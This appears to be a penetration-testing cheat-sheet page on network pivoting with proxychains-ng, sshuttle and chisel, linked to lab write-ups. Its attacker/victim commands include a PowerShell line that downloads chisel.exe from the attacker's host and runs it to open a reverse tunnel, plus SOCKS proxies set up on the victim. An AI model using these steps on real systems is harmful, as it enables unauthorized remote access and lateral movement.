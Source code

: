 ```
$ git clone https://github.com/rofl0r/proxychains-ng ~/tools/proxychains-ng && cd ~/tools/proxychains-ng
$ ./configure --prefix=/usr --sysconfdir=/etc
$ make
$ sudo make install
$ sudo make install-config
+ edit /etc/proxychains.conf
```



### sshuttle

* [https://github.com/sshuttle/sshuttle](https://github.com/sshuttle/sshuttle)
* [https://anubissec.github.io/How-To-Pivot-Into-Target-Network-With-SSH/#](https://anubissec.github.io/How-To-Pivot-Into-Target-Network-With-SSH/#)

```
$ sshuttle -vr snovvcrash@10.10.13.37 192.168.1.0/24 -e "sshpass -p 'Passw0rd!' ssh"
$ sshuttle -vr snovvcrash@10.10.13.37 192.168.1.0/24 -e "ssh -i ./key"
```



### chisel

- [https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
- [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html#chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html#chisel)

{% embed url="https://snovvcrash.github.io/2020/03/17/htb-reddish.html#chisel-socks" caption="HTB Reddish: Chisel SOCKS" %}

* Attacker's IP: `10.10.13.37`
* Victims's IP: `10.10.13.38`

Reverse local port `1111` (on Victim) to local port `2222` (on Attacker):

```
$ ./chisel server -p 8000 -v --reverse
PS > (New-Object Net.WebClient).DownloadFile("http://10.10.13.37/chisel.exe", "$env:userprofile\music\chisel.exe")
PS > Get-FileHash -Alg md5 "$env:userprofile\music\chisel.exe"
PS > Start-Process -NoNewWindow -FilePath "$env:userprofile\music\chisel.exe" -ArgumentList "client 10.10.13.37:8000 R:127.0.0.1:2222:127.0.0.1:1111"
```

Socks5 proxy in server mode:

```
alice@victim:~$ nohup ./chisel server -p 8000 --socks5 &
snovvcrash@kali:~$ ./chisel client 10.10.13.38:8000 [127.0.0.1:1080:]socks
```

Socks5 proxy in server mode when direct connection to Victim is not available (not relevant as Chisel supports socks5 in client mode now):

```
snovvcrash@kali:~$ ./chisel server -p 8000 --reverse
alice@victim:~$ nohup ./chisel client 10.10.13.37:8000 R:127.0.0.1:8001:127.0.0.1:8002 &
alice@victim:~$ nohup ./chisel server -v -p 8002 --socks5 &
snovvcrash@kali:~$ ./chisel client 127.0.0.1:8001 [127.0.0.1:1080:]socks
```
